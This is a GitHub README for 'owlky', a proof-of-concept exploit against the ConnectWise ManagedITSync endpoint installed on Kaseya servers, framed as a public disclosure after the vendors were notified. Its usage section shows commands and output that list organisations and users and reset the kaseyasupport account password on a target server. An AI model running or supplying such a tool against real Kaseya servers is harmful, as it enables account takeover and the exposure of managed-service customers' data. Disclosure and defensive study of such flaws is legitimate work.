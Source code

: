 # owlky

What is this? This is a proof of concept exploit for a Kaseya & ConnectWise integration called ManagedITSync which allows ConnectWise to retrieve information about assets in your Kaseya database (to then generate Configurations in ConnectWise).

Specifically, this script targets the `KaseyaCwWebService/ManagedIT.asmx` endpoint which is installed on the Kaseya server. To be clear, this is not really an exploit with Kaseya's offering -- but rather the integration published by ConnectWise which happens to be installed on the Kaseya server.

I am releasing this for a few reasons:
* The interested vendors (ConnectWise and Kaseya) have been made aware of this for months. The vendor responsible (ConnectWise) has since pulled this integration from their Marketplace and published mitigation steps in the ConnectWise university ([here](https://docs.connectwise.com/ConnectWise_Documentation/140/Kaseya_-_IP_and_Domain_Restrictions)).
* I have been told by ConnectWise that an advisery has been sent to affected customers (including above mitigation steps)
* Since _certain parties_ are aware of this existing I believe that all potentially affected parties should be aware so that they can ensure their systems are properly secured (you know, in case they did not receive any advisories from ConnectWise)

#### Usage

A few things... here are some examples.

```
$ ./owlky.py help

               available commands:
   )\___/(     owlky.py server(s) check
  {(K)v(Y)}    owlky.py server(s) dir-c
   {| ~ |}     owlky.py server(s) reset-support
   {/ ^ \}     owlky.py server(s) list-orgs
    `m-m`      owlky.py server(s) list-users

```

```
$ ./owlky.py kaseya.example.com list-orgs

Found 4 orgs at kaseya.example.com:
 - <REDACTED>
 - <REDACTED>
 - <REDACTED>
 - <REDACTED>
```

```
$ ./owlky.py kaseya.example.com reset-support
 
Attempting to reset password for kaseyasupport to 9e531283
Successfully reset password.
```

```
$ ./owlky.py kaseya.example.com list-users
 
Found 5 users at kaseya.example.com:
 - <REDACTED> (email: <REDACTED>)
 - <REDACTED> (email: <REDACTED>)
 - <REDACTED> (email: <REDACTED>)
 - <REDACTED> (email: <REDACTED>)
 - <REDACTED> (email: <REDACTED>)
```
